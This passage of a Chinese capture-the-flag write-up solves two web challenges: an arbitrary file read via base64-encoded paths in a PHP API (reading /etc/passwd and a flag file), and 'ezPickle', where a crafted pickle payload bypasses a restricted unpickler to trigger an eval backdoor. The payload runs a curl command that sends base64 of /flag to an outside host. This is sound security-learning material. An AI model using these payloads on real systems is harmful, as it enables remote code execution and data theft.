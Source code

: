 测试发现old下的`feature.php` 可以通过API参数任意文件读取！

`/etc/passwd` base64加密后：`L2V0Yy9wYXNzd2Q=`

![image-20211025081221062](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025081221.png)

读flag

`/var/www/html/flag.php`  base64加密：`L3Zhci93d3cvaHRtbC9mbGFnLnBocA==`

![image-20211025081244709](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025081244.png)





## **ezPickle**

分析源码：

发现有个后门！

```python
notadmin={"admin":"no"}

def backdoor(cmd):
    if notadmin["admin"]=="yes":
        s=''.join(cmd)
        eval(s)
```

并且：反序列化的内容进行了一个过滤。限定了只能反序列化`config`类，而且调用的方法或属性中不能含有`__`

```python
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module in ['config'] and "__" not in name:
            return getattr(sys.modules[module], name)
        raise pickle.UnpicklingError("'%s.%s' not allowed" % (module, name))
```

思路就是：为了利用这个后门，我们得把`config.notadmin`的值改为`{"admin":"yes"}`

利用工具生成恶意序列化字符串。

**exp.py**

```python
notadmin = GLOBAL('config', 'notadmin')
notadmin['admin'] = 'yes'
config_backdoor = GLOBAL('config', 'backdoor')
config_backdoor(["__import__('os').popen('curl 0.0.0.0:1?i=`cat /flag|base64`').read()"])
return
```

**payload:**

```
b"cconfig\nnotadmin\np0\n0g0\nS'admin'\nS'yes'\nscconfig\nbackdoor\np2\n0g2\n((S'__import__(\\'os\\').popen(\\'curl 0.0.0.0:1?i=`cat /flag|base64`\\').read()'\nltR."
```
